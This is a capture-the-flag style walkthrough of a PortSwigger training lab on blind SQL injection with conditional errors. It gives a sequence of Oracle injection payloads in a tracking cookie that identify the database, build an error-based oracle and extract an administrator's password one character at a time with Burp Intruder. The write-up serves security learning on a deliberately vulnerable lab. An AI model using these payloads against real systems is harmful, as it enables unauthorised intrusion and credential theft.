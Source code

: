 ## Welcome, my friend. Today we will start the [13. SQLLI lab](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/30dc25ad-499c-4e5a-a7cf-1231e8c80c9f)

### We discover this page and find category paramater.

![image](https://github.com/user-attachments/assets/39aca596-05a9-41a4-95f8-654698cba4f9)

![image](https://github.com/user-attachments/assets/54b093ea-8183-4f59-9b6e-520b078d12ce)

### We notice ```Cookie: TrackingId=ebVJ3SqBjZlzaJ5h;``` this param is vulnerable and inject following payload:

```
Cookie: TrackingId=nxkjo8aLjJ9l8Nmr';
```

![image](https://github.com/user-attachments/assets/d4e4562a-0226-41ee-bcb4-71e721b76edc)

### ```500 states``` printed.

### Try  following payload:

```
Cookie: TrackingId=nxkjo8aLjJ9l8Nmr'';
```

![image](https://github.com/user-attachments/assets/bddcd80c-5960-43c3-9c2f-0c5588751c4a)

### ```200 states``` printed so This is ```true```.

#### We know that there is one table is ```users``` and there are two columns ```username```,```password``` and there username is ```administrator``` and require his password.

### Ok We can using this payload to know type of database:

```
Cookie: TrackingId=nxkjo8aLjJ9l8Nmr'||(SELECT '')||';
```

![image](https://github.com/user-attachments/assets/bb38d4d6-6b7e-4748-8173-ebf54a50ee36)

### 500 states so this is deosn't MySQL database. try following payload:

```
Cookie: TrackingId=nxkjo8aLjJ9l8Nmr'||(SELECT '' FROM dual)||';
```

### 200 states this is Oracle database

#### Now We test and enter any table doesn't exist:

```
Cookie: TrackingId=nxkjo8aLjJ9l8Nmr'||(SELECT '' FROM Nothing-table)||';
```

![image](https://github.com/user-attachments/assets/d60893f4-042f-455a-8625-ff96022f965d)

### Now we test database if esixt within it users table:

```
Cookie: TrackingId=nxkjo8aLjJ9l8Nmr'||(SELECT '' FROM users WHERE ROWNUM = 1)||';
```

![image](https://github.com/user-attachments/assets/4d7e001f-8498-49d9-a334-03f840cb342d)

### Now this is first step to exploit this lab, We will using this stratigy:


```
Cookie: TrackingId=nxkjo8aLjJ9l8Nmr'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||';
```

![image](https://github.com/user-attachments/assets/a3a05f03-a563-4d8e-b6b0-d794e6db66a3)

### 500 status because 1=1 is true thin move to second condition 1/0 is error.

### Replace with 1=2

```
Cookie: TrackingId=nxkjo8aLjJ9l8Nmr'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||';
```

![image](https://github.com/user-attachments/assets/8a4b4137-cbe6-407a-a803-828c15bc5100)

### 200 status because 1=2 is false then move last condition.


### Now we test if exist username is administrator:

```
Cookie: TrackingId=nxkjo8aLjJ9l8Nmr'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||';
```

![image](https://github.com/user-attachments/assets/5bb795f9-67ea-4b95-82b5-de332283517d)

### 500 status reffer to exist username is administrator.


## Now we start guess password of administrator but in first we want know how much letters of passwords:

```
Cookie: TrackingId=nxkjo8aLjJ9l8Nmr'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||';
```

![image](https://github.com/user-attachments/assets/96cec2ca-9266-40b7-af5c-7fb54bd20f2b)

### password is greater than ```one``` letter.

### Try again then reach number of letters:

```
Cookie: TrackingId=nxkjo8aLjJ9l8Nmr'||(SELECT CASE WHEN LENGTH(password)=20 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||';
```

![image](https://github.com/user-attachments/assets/ee64fc4e-557b-4d6e-aa92-9fc9fabd7df9)


### Wow now we know that password is 20 letters.

### Let's find this letters:

```
Cookie: TrackingId=nxkjo8aLjJ9l8Nmr'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||';
```

![image](https://github.com/user-attachments/assets/f7b7d082-6cbb-47a2-ba57-24b9f6063e8f)


### The first letter isn't ```a```, Let's find first letter, But this prccess is take long time, So we using burp tool:

```
Cookie: TrackingId=nxkjo8aLjJ9l8Nmr'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||';
```

![image](https://github.com/user-attachments/assets/490cfed7-3d65-4836-bfa8-aee431585964)

[Screencast from 09-04-2024 06:59:14 PM.webm](https://github.com/user-attachments/assets/a0381e61-dac4-44ed-be93-c9efdcb166d0)

### the first letter is ```d```, We works again to find all letters susch as above video.

### We find password is ```dau5dwatu8hhlvj972bd``` Let's login with administrator.

![image](https://github.com/user-attachments/assets/d5f215c5-74dd-4ff7-9fb8-249c3268a999)


-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/ac822532-b3e6-4dcd-b670-0a007916f2b0" >
</p>
